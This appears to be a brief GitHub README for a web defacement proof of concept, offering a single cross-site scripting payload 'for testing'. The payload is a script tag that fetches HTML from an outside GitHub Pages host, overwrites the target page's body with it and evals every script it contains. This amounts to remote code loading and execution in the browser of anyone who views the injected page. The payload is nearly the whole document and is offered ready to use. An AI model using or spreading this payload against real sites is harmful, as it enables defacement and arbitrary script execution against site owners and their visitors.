 #  This is my Deface page for PoC
use the following paylods for testing .
```
<script> fetch('https://karthikdude.github.io/Deface/') .then(response => response.text()) .then(html => { document.body.innerHTML = html; const scripts = document.body.getElementsByTagName('script'); for (let script of scripts) { eval(script.innerText); } }); </script>
```

